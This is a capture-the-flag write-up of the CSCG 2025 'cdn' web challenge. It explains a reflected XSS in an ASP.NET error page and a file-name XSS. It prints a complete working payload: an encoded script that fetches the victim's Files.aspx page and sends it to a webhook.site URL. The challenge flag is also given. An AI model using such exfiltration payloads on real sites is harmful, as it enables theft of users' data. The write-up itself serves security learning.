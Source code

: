 ```yaml
---
title: cdn - CSCG 2025 - Write-Up
date: 2025-04-24 10:06:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,cyberpunk]
description: Another XSS vulnerability to exploit.
image:
  path: /assets/blog/cdn/cdn.png
  alt: CSCG image
---
```


This is the a write-up for the last web challenge (the one with the fewest solves) `cdn` of the CSCG 2025. The challenge was created by `NoRelect` and is rated as medium.
## Description

Description of the challenge:
> Diary Entry: February 10, 2080
> 
> Another day in the wasteland of enterprise software. The neon skyline flickers outside my window, but inside this concrete bunker of a cubicle, it's just me, an aging keyboard, and a .NET Framework project that refuses to die. I don't know how we got here. The world outside runs on quantum distributed neural meshes, but here I am, hammering away at legacy C# code in an IDE that barely runs on this salvaged hardware. Mono is the only thing keeping this fossil alive, and even that is held together with digital duct tape and the tears of developers long past. The system is ancient, predating even my grandparents. But the Corp won't let us move it. "Too much risk" they say. "Legacy compatibility" they insist. They don't see the warnings flashing in the logs like distress beacons in deep space. Reflection errors. Memory leaks. A garbage collector that might as well be a janitor sweeping an endless hallway of digital debris.

For this application you are provided with a massive amount of ASP.Net code, the code really shocked me, but actually I solved the challenge completely without looking at the code. The application is a simple file host application, it allows you to register an account. The application provides you with a simple UI to upload files and download them, although the files are not accessible via a URL in a CDN system.

## Vulnerability

The vulnerability is connected with how the application responds to errors. If the application detects any values which may be malicious it will respond with a page which will view these parameters, the issue is that these parameters are rendered that way, so they are displayed on the page. You can test that by injecting a simple XSS payload beginning like `?x=<img` asa parameter to your request query. The wep page will treat this image tag as the image and you have **Cross Site Scripting (XSS)**.

![](/assets/blog/cdn/error.png)

### Rabbit hole, another XSS

There is actually a second vulnerability in this application. This vulnerability can not be used to exploit the bot but it still exists. The vulnerability is that you can upload a file with a XSS payload as the file name. The file name will display the file for you which results in the execution of the XSS payload.

## Exploit 

The first issue while building a exploit payload is, that you may encounter is that the payload so the value of a parameter will be cut of.

For example if you inject `/?x=<img src=1 onerror=alert(1) />` as the payload to the page, you will be presented with the HTML:

```
<img src=1 oner...").
```

This can be solved by using the parameter name instead of the value as the payload. With using `/%3Cimg%20src%3D1%20onerror%3Dalert%281%29%20%2F%3E%20=<img` as the payload the page successfully responds with an alert.

**Note:** To make the malicious warning appear, there must be a dangerous tag inside the value of the payload/parameter, otherwise the page will return the usual page.

![](/assets/blog/cdn/alert.png)

The last step is to build a working final payload, for that you can use again like in the [Air-Smeller](/posts/Air-Smeller/) challenge [webhooks.site](https://webhook.site/), which provides you with a short URL.

The flag is uploaded to the page using the pages file upload function (this is a extract from the bots code):

```js
 await page.goto(cdnUrl + '/Files.aspx', {
        waitUntil: 'networkidle0',
    });
    const elementHandle = await page.$("#ctl00_MainContent_FileUpload1");
    await elementHandle.uploadFile('/tmp/flag.txt');
```

The files are rendered on the `/Files.aspx` page using this code:
```html
<li>
    <asp:HyperLink
        CssClass="cyberpunk blue"
        NavigateUrl='<%# Eval("Data") %>' 
        Text='<%# Eval("FileName") %>' 
        runat="server"/>
</li>
```

In the provided code, it's notable that files are encoded using Base64 and stored as strings. The format includes a specific data prefix. This format is designed to be utilized within the `NavigateUrl`.

```cs
var data = new FileData
{
    FileName = this.FileUpload1.FileName ?? "default-filename.bin",
    Data = "data:application/octet-stream;base64," + Convert.ToBase64String(this.FileUpload1.FileBytes)
};
```

So summarized: The files are the URL itself. This makes exploiting the XSS vulnerability effectively easier, becuase you only need to send the `/Files.aspx` page of the bot to our webhook. If the file would be stored at a separate URL you would need to first read the page and then request the URL.

I used a similar payload like in the Air Smeller Room, this is because it's just handy.

1. I build a short fetch JS script which would fetch the `/Files.aspx` page.
```js
fetch("/Files.aspx").then(r=>r.text()).then(j=>fetch("https://webhook.site/fe0c905f-7ac4-46cf-a78c-2ad0b44ae662?x="+btoa(j)));
```
2. Base64 encoded it and pasted it into the URL:
```
/Files.aspx?%3Cscript%3Eeval(atob(%22ZmV0Y2goIi9GaWxlcy5hc3B4IikudGhlbihyPT5yLnRleHQoKSkudGhlbihqPT5mZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvZmUwYzkwNWYtN2FjNC00NmNmLWE3OGMtMmFkMGI0NGFlNjYyP3g9IitidG9hKGopKSk7Cg%3D%3D%22))%3C/script%3E=%3Cimg
```

This payload worked for me in the local browser, so I submitted it to the reports page.

Eventually you will receive the full page as a payload on your web hook.

**Flag:**

```
dach2025{juni0r_d3v_c00k3d_up_s0me_0ld_t3chn0logi3s!127389}
```